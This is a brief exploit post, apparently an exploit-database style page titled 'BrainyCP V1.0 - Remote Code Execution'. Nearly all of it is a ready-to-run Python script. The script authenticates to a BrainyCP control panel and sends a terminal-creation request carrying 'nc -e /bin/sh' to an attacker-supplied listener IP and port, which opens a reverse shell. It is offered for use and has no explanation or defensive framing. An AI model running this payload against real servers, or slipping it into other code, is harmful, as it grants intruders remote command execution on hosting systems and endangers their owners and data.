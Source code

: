 ```yaml
---
layout: post
title: "BrainyCP V1.0 - Remote Code Execution"
date: 2024-05-25
category: exploit
---
```


#!/usr/bin/python3

import requests
import sys
import warnings
from bs4 import BeautifulSoup
import json

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) < 6:
    print("Usage: ./exploit.py http(s)://url username password listenerIP listenerPort")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]

req = requests.session()
login_creds = {
    "username":username,
    "password":password,
    "mode":"normal"}
      


print("[+] Sendin login request...")
login = req.post(url+"/api/core/auth", json = login_creds)


if username in login.text:

    page = url + "/api/terminal/create"

    payload = {

            'command':'nc -e /bin/sh ' + ip + ' ' + port ,
            'autoclose':True


          }
    payload = json.dumps(payload)
    print("[+] Sending payload...")
    
    send_payload = req.post(page, payload)
    
    print("[+] Check your listener !...")

else:
    print("[-] Wrong credentials or may the system patched.")
    exit()
